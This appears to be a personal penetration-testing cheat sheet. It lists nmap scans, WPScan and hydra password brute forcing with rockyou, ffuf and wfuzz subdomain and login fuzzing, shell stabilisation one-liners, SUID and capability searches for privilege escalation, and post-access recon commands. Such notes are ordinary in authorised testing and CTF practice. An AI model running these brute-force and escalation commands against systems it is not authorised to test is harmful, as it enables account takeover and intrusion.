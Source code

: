 ### Nmap 
```
sudo nmap -sS -sV -n -vv -Pn -p- $IP
```

```
sudo nmap --script [paket]-* $IP
```

```
sudo nmap -p- --min-rate 1000 $IP
```

### WPScan

```
wpscan --url [url] -e u
```

```
 wpscan --url [url] -U [user] -P /usr/share/wordlists/rockyou.txt --password-attack wp-login -t 100
```

### FFUF
```
ffuf -w /usr/share/seclists/Discovery/DNS/namelist.txt -H 'Host: FUZZ.[url]' -u [url] -fs 2395
```

```
ffuf -w /usr/share/seclists/Usernames/Names/names.txt -X POST -d "username=FUZZ&email=x&password=x&cpassword=x" -H "Content-Type: application/x-www-form-urlencoded" -u [url] -mr "[message from login form]"
```

```
ffuf -w valid_usernames.txt:W1,/usr/share/wordlists/SecLists/Passwords/Common-Credentials/10-million-password-list-top-100.txt:W2 -X POST -d "username=W1&password=W2" -H "Content-Type: application/x-www-form-urlencoded" -u [url] -fc 200
```

### Shell Stab
```
python3 -c 'import pty; pty.spawn("/bin/sh")'
python3 -c 'import pty; pty.spawn("/bin/bash")'

python3 -c 'import pty; pty.spawn("/bin/bash")'
export TERM=xterm

CTRL-z
stty raw -echo;fg
stty rows 55 columns 116
```

```
Without Python
usr/bin/script -qc /bin/bash /dev/null
```

### Hydra
```
hydra -l admin -P /usr/share/wordlists/rockyou.txt [ip] http-post-form "/admin/:user=^USER^&pass=^PASS^&LOGIN=Login:Username or password invalid"
```

```
hydra -l [user] -P [wordlist] [ip] [attack port/service]
```

### WFuzz
```
wfuzz -c -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -u 'http://host' -H 'Host:FUZZ.host' --hw 13 

```

### Capabilities 
```
getcap -r / 2>/dev/null
```

### Find Suid
```
find / -type f -perm -4000 2>/dev/null
```

```
find / -type f -user [user] -name "*file*" 2>/dev/null
```

```
find / -uid 0 -perm -4000 -type f 2>/dev/null
```
### Command Examples
Commands to try

Linux

    - whoami
    - id
    - ifconfig/ip addr
    - uname -a
    - ps -ef
    
Windows

    - whoami
    - ver
    - ipconfig
    - tasklist
    - netstat -an
